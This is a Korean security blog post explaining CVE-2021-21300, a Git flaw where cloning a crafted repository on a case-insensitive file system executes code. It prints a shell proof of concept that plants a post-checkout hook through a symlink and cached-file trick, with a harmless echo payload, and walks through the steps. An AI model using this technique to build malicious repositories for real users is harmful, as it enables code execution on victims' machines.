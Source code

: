 ```yaml
---
title: "[하루한줄] CVE-2021-21300: Git의 저장소 clone 원격 코드 실행 취약점"
author: L0ch
tags: [L0ch, cve, git, rce]
categories: [1day1line]
date: 2021-03-23 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[git: malicious repositories can execute remote code while cloning](https://www.openwall.com/lists/oss-security/2021/03/09/3)

## Target

- Git(2.14.2.windows.1에서 테스트됨)

## Explain

오픈소스 버전 관리 시스템인 Git에서 원격 저장소를 clone 하는 도중 원격 코드 실행이 가능한 취약점이 발견되어 관련 세부 정보가 공개되었습니다.



취약점의 트리거 조건은 다음과 같습니다.

- 타깃 시스템이 NTFS와 같이 대소문자를 구분하지 않고, 심볼릭 링크를 지원해야 합니다.(Windows 및 macOS의 기본 파일 시스템)

- Git LFS와 같이 clean 혹은 smudge 필터가 전역적으로 구성되어있어야 합니다.

  

악성 저장소를 생성하는 PoC는 다음과 같습니다.

```bash
#!/bin/sh

  git init delayed-checkout &&
  (
  	cd delayed-checkout &&
  	echo "A/post-checkout filter=lfs diff=lfs merge=lfs" \\
  		>.gitattributes &&
  	mkdir A &&
  	printf '#!/bin/sh\\n\\necho PWNED >&2\\n' >A/post-checkout &&
  	chmod +x A/post-checkout &&
  	>A/a &&
  	>A/b &&
  	git add -A &&
  	rm -rf A &&
  	ln -s .git/hooks a &&
  	git add a &&
  	git commit -m initial
  )
```

1. 임의 코드를 실행하는 악성 파일인 `A/post-checkout`이 저장소에 추가된 후 제거되면 Git 캐시에 남습니다. 이후 `./git/hooks`의 심볼릭 링크 `a`를 생성합니다.
   
   - git hooks - 특정 이벤트에 실행되는 스크립트
   
2. 타깃이 대소문자를 구분하지 않는 파일 시스템이라면 해당 저장소를 clone 할 때 `a`와 `A`를 구분하지 못해 `./git/hooks/post-checkout` 파일이 Git 캐시에 저장된 악성파일인 `A/post-checkout`로 대체됩니다.

3. git hooks에 의해 `post-checkout`가 실행되고 `post-checkout`에 작성된 임의 코드가 실행됩니다.

   


![](2021-03-23/image.png)

## Reference
POC - https://github.com/Maskhe/CVE-2021-21300